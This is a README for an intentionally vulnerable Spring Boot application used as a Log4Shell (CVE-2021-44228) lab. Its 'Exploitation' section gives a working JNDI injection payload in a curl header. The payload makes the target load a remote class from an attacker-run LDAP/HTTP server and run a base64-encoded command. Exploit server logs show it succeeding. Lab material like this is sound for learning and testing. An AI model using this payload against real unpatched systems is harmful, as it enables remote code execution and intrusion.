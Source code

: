 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 vulnerable-app
```

## Exploitation

First, download JNDIExploit from [here](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2). Run the jar to launch the exploit LDAP server from an IP that the application can reach:

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ldap-server-ip> -p <http-port>
```
Confirm the exploit by running:

```bash
curl <application-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<ldap-server-ip>:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9vd25lZC50eHQ=}'
```
The base64 value decodes to `touch /tmp/owned.txt`. 

You will see similar output from JNDIExploit like below:

```bash
root@2111:~/# java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ldap-server-ip> -p 8888
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9vd25lZC50eHQ=
[+] Paylaod: command
[+] Command: touch /tmp/owned.txt
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9vd25lZC50eHQ= with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9vd25lZC50eHQ= redirecting to http://<ldap-server-ip>:8888/ExploitDRbp2Hes0L.class
[+] New HTTP Request From /127.0.0.1:34010  /ExploitDRbp2Hes0L.class
[+] Receive ClassRequest: ExploitDRbp2Hes0L.class
[+] Response Code: 200
```

Now check the `/tmp` folder inside the docker container and the text file `owned.txt` should be there:

```sh
root@2111:~/# docker ps
CONTAINER ID   IMAGE       COMMAND                  CREATED              STATUS              PORTS                                       NAMES
efebc918d9cb   vulnerable-app   "java -jar /app/spri…"   About a minute ago   Up About a minute   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   vulnerable-app

root@2111:~/# docker exec -it efebc918d9cb ash   
/ # ls /tmp
hsperfdata_root
owned.txt
tomcat-docbase.8080.2415120533529983821
tomcat.8080.1416539772670722454
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/